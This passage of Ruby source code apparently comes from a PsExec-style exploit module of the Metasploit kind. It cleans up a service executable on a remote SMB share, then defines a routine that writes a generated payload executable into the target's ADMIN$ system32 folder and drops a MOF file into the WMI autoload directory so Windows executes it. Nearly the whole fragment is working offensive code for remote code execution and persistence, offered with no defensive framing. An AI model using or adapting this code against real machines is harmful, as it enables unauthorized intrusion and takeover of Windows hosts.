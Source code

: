     psexec(file_location, false)

    unless datastore['SERVICE_PERSIST']
      print_status("Deleting \\#{filename}...")
      #This is not really useful but will prevent double \\ on the wire :)
      if datastore['SHARE'] =~ /.[\\\/]/
        simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
        begin
          simple.delete("\\#{fileprefix}\\#{filename}")
        rescue XCEPT::ErrorCode => e
          print_error("Delete of \\#{fileprefix}\\#{filename} failed: #{e.message}")
        end
      else
        simple.connect("\\\\#{datastore['RHOST']}\\#{smbshare}")
        begin
          simple.delete("\\#{filename}")
        rescue XCEPT::ErrorCode => e
          print_error("Delete of \\#{filename} failed: #{e.message}")
        end
      end
    end
  end

  def mof_upload
    share = "\\\\#{datastore['RHOST']}\\ADMIN$"
    filename = datastore['SERVICE_FILENAME'] || "#{rand_text_alpha(8)}.exe"

    # payload as exe
    print_status("Trying wbemexec...")
    print_status("Uploading Payload...")
    if datastore['SHARE'] != 'ADMIN$'
      print_error('Wbem will only work with ADMIN$ share')
      return
    end
    simple.connect(share)
    exe = generate_payload_exe
    fd = smb_open("\\system32\\#{filename}", 'rwct')
    fd << exe
    fd.close
    print_status("Created %SystemRoot%\\system32\\#{filename}")

    # mof to cause execution of above
    mofname = rand_text_alphanumeric(14) + ".MOF"
    mof = generate_mof(mofname, filename)
    print_status("Uploading MOF...")
    fd = smb_open("\\system32\\wbem\\mof\\#{mofname}", 'rwct')
    fd << mof
    fd.close
    print_status("Created %SystemRoot%\\system32\\wbem\\mof\\#{mofname}")
